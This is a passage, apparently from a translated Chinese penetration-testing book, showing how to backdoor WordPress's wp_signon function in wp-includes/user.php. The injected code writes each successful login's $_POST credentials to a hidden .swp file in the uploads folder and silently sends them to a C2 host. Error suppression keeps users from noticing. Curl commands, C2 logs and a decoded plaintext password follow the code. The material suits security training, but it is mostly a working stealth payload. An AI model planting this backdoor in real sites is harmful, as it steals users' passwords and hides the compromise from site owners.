PHP 的 `file_get_contents()` 函数允许我们向 C2 服务器发出网页请求，我们可以通过 URL 将凭证传递过去。我们可以在 C2 的日志中查看数据。对于网络外泄，我们应该在函数前添加 `@` 字符，这样 PHP 就会抑制任何错误，万一发生网络问题。如果 C2 服务器宕机或无法访问，我们不想引起用户对潜在安全问题的警觉。

```
@file_get_contents(**[c2 URL]**);
```

需要注意的是，URL 数据外泄可能会导致站点出现明显的延迟，这可能会提醒用户潜在的安全风险。如果隐蔽性至关重要，最好将数据存储在本地，通过网页检索，并在操作完成后删除。

对于我们的凭证窃取器，我们可以使用以下一行（或两行）代码：

```
file_put_contents(**'wp-content/uploads/.index.php.swp'**, base64_encode(json_encode(**$_POST**)) . PHP_EOL, FILE_APPEND);
@file_get_contents(**'http://pingback.c2.spider.ml/ping.php?id='** . base64_encode(json_encode(**$_POST**)));
```

简而言之，在用户登录过程中，我们的后门将会：

1.  获取存储在 `$_POST` 全局中的明文凭证

1.  对凭证进行 JSON 和 Base64 编码，方便传输和混淆

1.  将凭证存储在 `wp-content/uploads/.index.php.swp` 文件中

1.  通过 URL `http://pingback.c2.spider.ml/ping.php` 将它们发送到我们的 C2。

后门代码将添加在`wp_signon`函数返回之前。这确保我们仅捕获有效的凭证。如果提供的凭证无效，`wp_signon`函数会比我们的代码更早返回。

我们必须将代码注入到`wp-includes/user.php`中的合适位置。凭证通过`wp_signon`进行检查，并在函数的最后`return`语句之前被认为是有效的。我们需要在此处放置我们的代码：

```
<?php
/**
 * Core User API
 *
 * @package WordPress
 * @subpackage Users
 */
[...]

function wp_signon( $credentials = array(), $secure_cookie = '' ) {
[...]
  if ( is_wp_error($user) ) {
    if ( $user->get_error_codes() == array('empty_username', 'empty_password') ) {
      $user = new WP_Error('', '');
    }

    return $user;
  }

  **file_put_contents('wp-content/uploads/.index.php.swp', base64_encode(json_encode($_POST)) . PHP_EOL, FILE_APPEND);**

  **@file_get_contents('http://pingback.c2.spider.ml/ping.php?id=' . base64_encode(json_encode($_POST)));**
  wp_set_auth_cookie($user->ID, $credentials['remember'], $secure_cookie);
  /**
```

```
   * Fires after the user has **successfully** logged in.
   *
   * @since 1.5.0
   *
   * @param string  $user_login Username.
   * @param WP_User $user       WP_User object of the logged-in user.
   */
  **do_action( 'wp_login', $user->user_login, $user );**
  **return $user;**
}
```

一旦用户，或者两个或三个用户成功登录，我们可以在`wp-content/uploads/.index.php.swp`文件中看到明文凭证：

```
root@kali:~# curl http://cookingwithfire.local/wp-content/uploads/.index.php.swp
**eyJsb2ciOiJtc21pdGgiLCJwd2QiOiJpWVFOKWUjYTRzKnJMZTdaaFdoZlMmXnYiLCJ3cC1zdWJtaXQiOiJMb2cgSW4iLCJyZWRpcmVjdF90byI6Imh0dHA6XC9cL2Nvb2tpbmd3aXRoZmlyZS5sb2NhbFwvd3AtYWRtaW5cLyIsInRlc3Rjb29raWUiOiIxIn0=**
root@kali:~#
```

C2 服务器还在连接日志中记录了相同的凭证：

```
root@spider-c2-1:~/c2# php -S 0.0.0.0:80
PHP 7.0.27-0+deb9u1 Development Server started
Listening on http://0.0.0.0:80
Document root is /root/c2
Press Ctrl-C to quit.
[] 192.30.89.138:53039 [200]: **/ping.php?id=eyJsb2ciOiJtc21pdGgiLCJwd2QiOiJpWVFOKWUjYTRzKnJMZTdaaFdoZlMmXnYiLCJ3cC1zdWJtaXQiOiJMb2cgSW4iLCJyZWRpcmVjdF90byI6Imh0dHA6XC9cL2Nvb2tpbmd3aXRoZmlyZS5sb2NhbFwvd3AtYWRtaW5cLyIsInRlc3Rjb29raWUiOiIxIn0=**

```

如果我们解码 Base64 数据，可以看到`msmith`的密码：

```
**root@kali:~# curl -s http://cookingwithfire.local/wp-content/uploads/.index.php.swp | base64 -d**
**{"log":"msmith","pwd":"iYQN)e#a4s*rLe7ZhWhfS&^v","wp-submit":"Log In","redirect_to":"http:\/\/cookingwithfire.local\/wp-admin\/","testcookie":"1"}**

```

尝试破解我们从数据库中获取的哈希值对`msmith`来说可能会失败。幸运的是，我们能够修改 CMS 代码以捕获明文凭证，而不会干扰目标和其用户。

# 总结

在本章中，我们详细探讨了攻击 CMS，特别是 WordPress。虽然我们对 WordPress 进行了相当密集的攻击，但需要注意的是，类似的问题和漏洞也可以在其竞争对手的软件中找到。Drupal 和 Joomla 通常在 CMS 讨论中提到，它们也不陌生于编写不当的插件或配置错误的实例。

我们能够使用 WPScan 和 Arachni 评估目标 CMS，甚至在获取一些访问权限后，查看特权提升或横向移动的选项。我们还查看了后门代码，以保持我们的访问权限，甚至修改 CMS 核心源代码，将明文凭证导出到我们的 C2 服务器。
